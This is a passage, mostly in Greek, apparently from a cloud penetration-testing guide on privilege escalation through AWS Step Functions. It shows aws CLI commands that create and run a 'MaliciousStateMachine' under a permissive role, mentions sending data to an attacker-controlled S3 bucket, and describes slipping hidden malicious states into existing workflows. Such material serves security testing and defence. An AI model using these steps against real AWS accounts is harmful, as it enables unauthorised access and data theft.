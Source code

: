 {% code overflow="wrap" %}
```bash
aws stepfunctions create-state-machine --name MaliciousStateMachine --definition file://stateMachineDefinition.json --role-arn arn:aws:iam::123456789012:role/PermissiveRole
{
"stateMachineArn": "arn:aws:states:us-east-1:123456789012:stateMachine:MaliciousStateMachine",
"creationDate": "2024-07-09T20:29:35.381000+02:00"
}
```
{% endcode %}

* **Εντολή** που εκτελείται για να **ξεκινήσει μια εκτέλεση** της προηγουμένως δημιουργημένης μηχανής καταστάσεων:

{% code overflow="wrap" %}
```json
aws stepfunctions start-execution --state-machine-arn arn:aws:states:us-east-1:123456789012:stateMachine:MaliciousStateMachine
{
"executionArn": "arn:aws:states:us-east-1:123456789012:execution:MaliciousStateMachine:1a2b3c4d-1a2b-1a2b-1a2b-1a2b3c4d5e6f",
"startDate": "2024-07-09T20:33:35.466000+02:00"
}
```
{% endcode %}

{% hint style="warning" %}
Ο ελεγχόμενος από τον επιτιθέμενο S3 κάδος θα πρέπει να έχει δικαιώματα να αποδέχεται μια ενέργεια s3:PutObject από τον λογαριασμό του θύματος.
{% endhint %}

**Πιθανές Επιπτώσεις**: Μη εξουσιοδοτημένη εκτέλεση και χειρισμός ροών εργασίας και πρόσβαση σε ευαίσθητους πόρους, που μπορεί να οδηγήσει σε σημαντικές παραβιάσεις ασφάλειας.

### `states:UpdateStateMachine` & (όχι πάντα απαραίτητο) `iam:PassRole`

Ένας επιτιθέμενος με την άδεια **`states:UpdateStateMachine`** θα μπορούσε να τροποποιήσει τον ορισμό μιας μηχανής καταστάσεων, προσθέτοντας επιπλέον κρυφές καταστάσεις που θα μπορούσαν να καταλήξουν σε κλιμάκωση προνομίων. Έτσι, όταν ένας νόμιμος χρήστης ξεκινά μια εκτέλεση της μηχανής καταστάσεων, αυτή η νέα κακόβουλη κρυφή κατάσταση θα εκτελείται και η κλιμάκωση προνομίων θα είναι επιτυχής.

Ανάλογα με το πόσο επιτρεπτικός είναι ο IAM Ρόλος που σχετίζεται με τη μηχανή καταστάσεων, ένας επιτιθέμενος θα αντιμετωπίσει 2 καταστάσεις:

1. **Επιτρεπτικός IAM Ρόλος**: Εάν ο IAM Ρόλος που σχετίζεται με τη μηχανή καταστάσεων είναι ήδη επιτρεπτικός (έχει για παράδειγμα την πολιτική **`arn:aws:iam::aws:policy/AdministratorAccess`** συνημμένη), τότε η άδεια **`iam:PassRole`** δεν θα απαιτείται προκειμένου να κλιμακωθούν τα προνόμια, καθώς δεν θα είναι απαραίτητο να ενημερωθεί και ο IAM Ρόλος, με τον ορισμό της μηχανής καταστάσεων να είναι αρκετός.
2. **Μη επιτρεπτικός IAM Ρόλος**: Σε αντίθεση με την προηγούμενη περίπτωση, εδώ ένας επιτιθέμενος θα απαιτήσει επίσης την άδεια **`iam:PassRole`** καθώς θα είναι απαραίτητο να συσχετιστεί ένας επιτρεπτικός IAM Ρόλος με τη μηχανή καταστάσεων εκτός από την τροποποίηση του ορισμού της μηχανής καταστάσεων.
